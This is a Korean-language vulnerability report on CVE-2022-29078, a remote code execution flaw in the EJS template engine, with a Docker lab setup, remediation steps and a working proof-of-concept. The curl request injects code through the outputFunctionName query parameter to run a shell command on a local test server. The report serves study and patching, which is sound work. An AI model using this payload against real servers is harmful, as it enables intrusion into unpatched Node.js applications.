


CVE-2022-29078: EJS 템플릿 엔진 원격 코드 실행(RCE) 취약점 분석 보고서
1. 취약점 요약
•	취약점명: EJS 템플릿 인젝션을 통한 원격 코드 실행 (RCE)
•	CVE 번호: CVE-2022-29078
•	위험도 (Risk Score): CVSS 9.8 (Critical)
•	개요: Node.js의 인기 템플릿 엔진인 EJS(Embedded JavaScript templates) 3.1.6 이하 버전에서 발생하며, Express 프레임워크와 결합하여 사용할 때 사용자가 입력한 쿼리 파라미터가 적절한 필터링 없이 템플릿 렌더링 옵션(render(view, options))으로 직접 전달될 경우 내부 속성을 오염시켜 임의의 시스템 명령어를 실행할 수 있는 취약점입니다.

2. 취약 조건
•	대상 소프트웨어: ejs 3.1.6 이하 버전 (본 환경은 3.1.6 활용)
•	애플리케이션 조건: 유저가 제어 가능한 데이터(예: req.query)가 res.render()의 두 번째 파라미터인 options 객체로 온전히 전달되는 구조여야 합니다.

3. 환경 구성 방법
본 환경은 깨끗한 상태에서 아래 명령어를 순서대로 복사하여 붙여넣으면 한 번에 구동됩니다.

cd Express/CVE-2022-29078
docker-compose up -d --build

4. 재현 절차 및 PoC 코드
공격자는 settings[view options][outputFunctionName] 옵션을 오염시키는 페이로드를 HTTP GET 요청의 쿼리 스트링으로 전달하여, 템플릿 내부 함수가 컴파일되는 과정에서 악성 JavaScript 코드가 실행되도록 유도합니다.
[PoC 공격 명령어]
새 터미널을 열고 아래 curl 명령어를 복사하여 실행합니다. (서버 내부 루트 디렉터리에 success.txt 파일을 생성하는 명령어입니다.)
curl "http://localhost:3000/?settings[view%20options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('touch%20success.txt');x"

5. 실행 결과
공격 성공 후 Docker 컨테이너 내부에 success.txt 파일이 정상적으로 생성되었는지 검증합니다.
docker-compose exec web ls -l

공격 명령어가 성공적으로 수행되어 컨테이너 내부에 success.txt 파일이 생성된 모습입니다.

6. 대응 방안
1) 영구 조치 (권장)
•	취약점이 해결된 최신 버전인 ejs 3.1.7 이상 버전으로 업데이트를 진행합니다.
•	업데이트 명령어: npm install ejs@latest
2) 임시 및 보안 코딩 조치
•	사용자 입력 데이터(req.query, req.body 등)를 유효성 검증(Sanitization) 없이 res.render()의 옵션 파라미터로 통째로 넘기지 않아야 합니다.
•	반드시 템플릿에 사용할 명확한 key-value만 객체로 분리하여 바인딩해야 합니다.
res.render('index', { name: req.query.name, age: req.query.age });